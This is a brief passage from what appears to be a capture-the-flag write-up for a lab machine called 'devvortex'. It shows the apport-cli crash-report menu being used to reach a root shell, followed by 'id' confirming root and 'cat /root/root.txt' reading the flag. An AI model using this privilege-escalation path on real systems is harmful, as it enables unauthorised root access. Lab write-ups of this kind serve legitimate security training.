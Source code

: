 ```shell
After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (717.0 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V
root@devvortex:/home/logan# id
uid=0(root) gid=0(root) groups=0(root)
```

We got shell as root and we get the root flag.

```shell
root@devvortex:/home/logan# cat /root/root.txt
[OMITTED]
```
